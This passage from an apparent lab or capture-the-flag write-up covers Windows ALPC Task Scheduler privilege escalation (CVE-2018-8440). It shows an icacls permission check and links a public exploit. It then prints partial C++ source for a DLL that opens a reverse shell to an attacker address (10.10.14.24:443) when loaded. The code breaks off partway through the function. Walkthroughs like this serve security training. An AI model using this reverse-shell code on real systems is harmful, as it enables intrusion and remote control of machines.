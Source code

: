 ### Windows ALPC Elevation of Privilege Vulnerability.
The box could be potentially vulnerable to `ALPC` Task Scheduler LPE [CVE-2018-8440](https://nvd.nist.gov/vuln/detail/CVE-2018-8440). One important condition for this exploit to work is the Read Execute access for Authenticated Users group on the C:\Windows\Tasks folder.
We can check those permisions using `icacls`.
```
PS C:\Windows\SysWOW64\inetsrv>icacls C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
                 BUILTIN\Administrators:(F)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 CREATOR OWNER:(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
### ALPC Scheduler LPE 
Having confirmed the permissions we can exploit the vulnerability.

We'll use the [ALPC DiagHub](https://github.com/realoriginal/alpc-diaghub) exploit. which combines the ALPC exploit with DiagHub Service to execute the DLL.

First, we need to donwload `64 bit` version  of `Alpc` exe and then compilea `DLL` using mingw. Here's a sample code which sends a reverse shell using sockets on windows. It creates a socket, sends back a connect, runs the command and stores in a buffer to return the output.
```cpp
#include <stdio.h>
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <windows.h>
#pragma comment(lib, "Ws2_32.lib")

#define REMOTE_ADDR "10.10.14.24"
#define REMOTE_PORT "443"

void revShell();

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved)
{
        switch(dwReason)
        {
                case DLL_PROCESS_ATTACH:
			                  revShell();
                        break;
                case DLL_PROCESS_DETACH:
                        break;
                case DLL_THREAD_ATTACH:
                        break;
                case DLL_THREAD_DETACH:
                        break;
        }

        return 0;
}
void revShell()
{
	FreeConsole();
	WSADATA wsaData;
	int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
	struct addrinfo *result = NULL,	*ptr = NULL, hints;
	memset(&hints, 0, sizeof(hints));
```